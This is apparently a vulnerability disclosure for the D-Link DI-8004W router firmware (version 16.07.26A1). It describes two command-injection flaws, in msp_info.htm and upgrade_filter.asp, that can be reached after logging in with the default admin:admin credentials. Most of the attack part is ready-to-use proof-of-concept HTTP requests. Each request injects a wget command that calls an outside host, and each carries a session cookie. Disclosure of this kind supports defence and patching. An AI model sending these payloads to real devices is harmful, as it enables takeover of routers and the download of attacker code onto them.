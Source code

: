 ### D-link DI_8004W rce

Firmware Name: DI_8004W-16.07.26A1.trx

- Model: DI_8004W

-  Version: 16.07.26A1

- Test Environment: Ubuntu 22.04 

- offical website:www.dlink.com

  download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8004W





The DI-8004W is a certified router for internet behavior management.  There are two command execution vulnerability in its jhttpd's msp_info_htm function and upgrade_filter.asp.

affect version:

![image-20240806100527691](./weimeng.assets/image-20240806100527691.png)



![image-20240806100843069](./weimeng.assets/image-20240806100843069.png)



![image-20240806100907122](./weimeng.assets/image-20240806100907122.png)



### exploit 1: function msp_info.htm

After logging in with the default password admin:admin, accessing the msp_info.htm page, and crafting carefully constructed parameters, it is possible to execute commands.

```
GET /msp_info.htm?flag=cmd&cmd=`wget%20http://192.168.0.2:8000/aaa` HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: uid=DEiAsct48; wys_userid=admin,wys_passwd=1D3BB56A0D060C342D7DF9A62D1C746E

Upgrade-Insecure-Requests: 1




```

![9c23362d185dbc183ced28a1766e908](./weimeng.assets/9c23362d185dbc183ced28a1766e908.png)











### exploit 1: function upgrade_filter.asp

After logging in with the default password admin:admin, accessing the upgrade_filter.asp page, and crafting carefully constructed parameters, it is possible to execute commands.

poc

```
GET /upgrade_filter.asp?path=http://`wget%20http://192.168.0.2:8000/asdf` HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: uid=DEiAsct48; wys_userid=admin,wys_passwd=1D3BB56A0D060C342D7DF9A62D1C746E

Upgrade-Insecure-Requests: 1


```

![image-20240806100038185](./weimeng.assets/image-20240806100038185.png)